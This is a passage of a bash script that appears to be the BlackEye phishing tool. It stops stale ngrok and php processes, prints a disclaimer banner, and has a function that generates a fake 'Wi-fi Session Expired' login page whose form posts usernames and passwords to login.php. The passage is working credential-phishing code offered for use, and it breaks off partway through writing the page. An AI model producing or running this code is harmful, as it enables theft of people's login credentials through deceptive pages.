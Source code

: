 checkngrok=$(ps aux | grep -o "ngrok" | head -n1)
checkphp=$(ps aux | grep -o "php" | head -n1)
if [[ $checkngrok == *'ngrok'* ]]; then
pkill -f -2 ngrok > /dev/null 2>&1
killall -2 ngrok > /dev/null 2>&1
fi
if [[ $checkphp == *'php'* ]]; then
pkill -f -2 php > /dev/null 2>&1
killall -2 php > /dev/null 2>&1
fi


}

banner() {

printf "\n"
printf "\n"
printf "     \e[101m\e[1;77m:: Disclaimer: Developers assume no liability and are not    ::\e[0m\n"
printf "     \e[101m\e[1;77m:: responsible for any misuse or damage caused by BlackEye.  ::\e[0m\n"
printf "     \e[101m\e[1;77m:: Only use for educational purporses!!                      ::\e[0m\n"
printf "\n"
printf "     \e[101m\e[1;77m:: Attacking targets without mutual consent is illegal!      ::\e[0m\n"
printf "\n"
}

createpage() {
default_cap1="Wi-fi Session Expired"
default_cap2="Please login again."
default_user_text="Username:"
default_pass_text="Password:"
default_sub_text="Log-In"

read -p $'\e[1;92m[\e[0m\e[1;77m*\e[0m\e[1;92m] Title 1 (Default: Wi-fi Session Expired): \e[0m' cap1
cap1="${cap1:-${default_cap1}}"

read -p $'\e[1;92m[\e[0m\e[1;77m*\e[0m\e[1;92m] Title 2 (Default: Please login again.): \e[0m' cap2
cap2="${cap2:-${default_cap2}}"

read -p $'\e[1;92m[\e[0m\e[1;77m*\e[0m\e[1;92m] Username field (Default: Username:): \e[0m' user_text
user_text="${user_text:-${default_user_text}}"

read -p $'\e[1;92m[\e[0m\e[1;77m*\e[0m\e[1;92m] Password field (Default: Password:): \e[0m' pass_text
pass_text="${pass_text:-${default_pass_text}}"

read -p $'\e[1;92m[\e[0m\e[1;77m*\e[0m\e[1;92m] Submit field (Default: Log-In): \e[0m' sub_text
sub_text="${sub_text:-${default_sub_text}}"

echo "<!DOCTYPE html>" > sites/create/login.html
echo "<html>" >> sites/create/login.html
echo "<body bgcolor=\"gray\" text=\"white\">" >> sites/create/login.html
IFS=$'\n'
printf '<center><h2> %s <br><br> %s </h2></center><center>\n' $cap1 $cap2 >> sites/create/login.html
IFS=$'\n'
printf '<form method="POST" action="login.php"><label>%s </label>\n' $user_text >> sites/create/login.html
IFS=$'\n'
printf '<input type="text" name="username" length=64>\n' >> sites/create/login.html
IFS=$'\n'
printf '<br><label>%s: </label>' $pass_text >> sites/create/login.html
IFS=$'\n'
printf '<input type="password" name="password" length=64><br><br>\n' >> sites/create/login.html
IFS=$'\n'
printf '<input value="%s" type="submit"></form>\n' $sub_text >> sites/create/login.html